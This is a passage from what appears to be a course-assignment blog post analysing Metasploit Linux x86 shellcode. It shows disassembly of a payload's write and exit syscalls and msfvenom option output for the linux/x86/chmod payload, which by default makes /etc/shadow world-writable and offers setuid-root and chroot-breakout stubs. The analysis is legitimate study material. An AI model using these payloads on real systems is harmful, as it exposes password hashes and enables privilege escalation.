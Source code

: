 ![assignment5-5](https://bohansec.com/assets/assignment5-5.PNG "assignment5-5")

{% highlight js %}
The following code write the user to the file and exit the program
00000051  6A04              push byte +0x4 ;#define __NR_write 4
00000053  58                pop eax ;set eax to 4
00000054  CD80              int 0x80
00000056  6A01              push byte +0x1 ;set eax to 1 so exit the program
00000058  58                pop eax
00000059  CD80              int 0x80
{% endhighlight %}

### linux/x86/chmod

Show all the available options for this payload to get a general idea what it does:

{% highlight js %}
kali@kali:~$ msfvenom -p linux/x86/chmod -f raw --list-options
Options for payload/linux/x86/chmod:
=========================


       Name: Linux Chmod
     Module: payload/linux/x86/chmod
   Platform: Linux
       Arch: x86
Needs Admin: No
 Total size: 36
       Rank: Normal

Provided by:
    kris katterjohn <katterjohn@gmail.com>

Basic options:
Name  Current Setting  Required  Description
----  ---------------  --------  -----------
FILE  /etc/shadow      yes       Filename to chmod
MODE  0666             yes       File mode (octal)

Description:
  Runs chmod on specified file with specified mode



Advanced options for payload/linux/x86/chmod:
=========================

    Name                        Current Setting  Required  Description
    ----                        ---------------  --------  -----------
    AppendExit                  false            no        Append a stub that executes the exit(0) system call
    MeterpreterDebugLevel       0                yes       Set debug level for meterpreter 0-3 (Default output is strerr)
    PrependChrootBreak          false            no        Prepend a stub that will break out of a chroot (includes setreuid to root)
    PrependFork                 false            no        Prepend a stub that executes: if (fork()) { exit(0); }
    PrependSetgid               false            no        Prepend a stub that executes the setgid(0) system call
    PrependSetregid             false            no        Prepend a stub that executes the setregid(0, 0) system call
    PrependSetresgid            false            no        Prepend a stub that executes the setresgid(0, 0, 0) system call
    PrependSetresuid            false            no        Prepend a stub that executes the setresuid(0, 0, 0) system call
    PrependSetreuid             false            no        Prepend a stub that executes the setreuid(0, 0) system call